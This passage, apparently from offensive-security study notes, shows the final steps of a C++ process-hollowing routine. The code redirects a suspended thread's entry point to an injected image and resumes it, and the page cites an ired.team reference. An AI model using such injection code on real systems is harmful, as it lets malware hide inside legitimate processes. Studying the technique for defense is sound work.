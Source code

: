 ```cpp
	// call get thread context
	GetThreadContext(pi->hThread, context);

	// update dest image entry point to the new entry point of the source image and resume dest image thread

	// get the patched entry point
	DWORD patchedEntryPoint = (DWORD)destImageBase + sourceImageNTHeaders->OptionalHeader.AddressOfEntryPoint;

	// replace the entry point defines in the eax variable with the patched entry point
	context->Eax = patchedEntryPoint;

	// set the thread context
	SetThreadContext(pi->hThread, context);

	// resume the suspended process
	ResumeThread(pi->hThread);
	return;
}
```

## References
- [https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations#code](https://www.ired.team/offensive-security/code-injection-process-injection/process-hollowing-and-pe-image-relocations#code)

<script type="text/javascript" src="http://cdn.mathjax.org/mathjax/latest/MathJax.js?config=TeX-AMS-MML_HTMLorMML"></script>
